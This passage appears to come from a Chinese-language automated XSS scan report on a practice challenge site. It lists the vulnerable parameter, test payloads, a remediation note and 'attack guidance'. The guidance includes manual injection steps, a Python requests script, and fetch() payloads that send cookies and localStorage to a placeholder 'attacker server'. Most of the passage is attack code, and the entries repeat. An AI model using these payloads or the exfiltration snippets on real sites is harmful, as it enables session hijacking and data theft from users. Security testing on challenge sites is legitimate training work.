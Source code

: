 3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: high
- 验证载荷: <script>alert(1)</script>
- 修复建议: 对所有用户输入进行HTML编码，使用现代框架的XSS防护机制，实施内容安全策略(CSP)

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <script>alert(1)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'keyword': '<script>alert(1)</script>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: high
- 验证载荷: <img src=x onerror=alert(1)>
- 修复建议: 对所有用户输入进行HTML编码，使用现代框架的XSS防护机制，实施内容安全策略(CSP)

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <img src=x onerror=alert(1)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'keyword': '<img src=x onerror=alert(1)>'}
   response = requests.get(url, params=params)
   ```
